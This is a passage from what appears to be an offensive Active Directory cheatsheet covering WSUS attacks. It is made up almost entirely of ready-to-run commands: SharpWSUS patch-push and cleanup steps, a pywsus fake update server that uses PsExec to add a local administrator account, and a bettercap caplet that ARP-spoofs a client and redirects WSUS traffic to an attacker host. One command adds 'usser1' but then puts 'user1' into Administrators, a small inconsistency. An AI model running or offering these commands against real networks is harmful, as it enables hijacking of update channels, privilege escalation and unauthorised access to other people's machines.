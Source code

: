 ```powershell
./SharpWSUS.exe check /updateid:<GUID_from_create> /computername:<target>

#Clean up after the patch is downloaded.
./SharpWSUS.exe delete /updateid:<GUID_from_create> /computername:<target> /groupname:"Evil Group"
```

* [Spoof the WSUS server and hijack the update](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/wsus-spoofing) if the updates are pushed through HTTP and not HTTPS

```powershell
#Find the WSUS server with the REG key
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v wuserver

#Setup the fake WSUS server
python3.exe pywsus.py --host <network_interface> --port 8530 --executable ./PsExec64.exe --command '/accepteula /s cmd.exe /c "net user usser1 Password123! /add && net localgroup Administrators user1 /add"'
```

And ARP spoofing with bettercap and a `wsus_spoofing.cap` like this:

```go
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```

```bash
bettercap --iface <network_interface> --caplet wsus_spoofing.cap
```

Now wait for update verification or manually trigger with a GUI access on the machine.

Another attack presented in the AD-CS cheatsheet permits to perform an ESC8 from a WSUS poisoning.
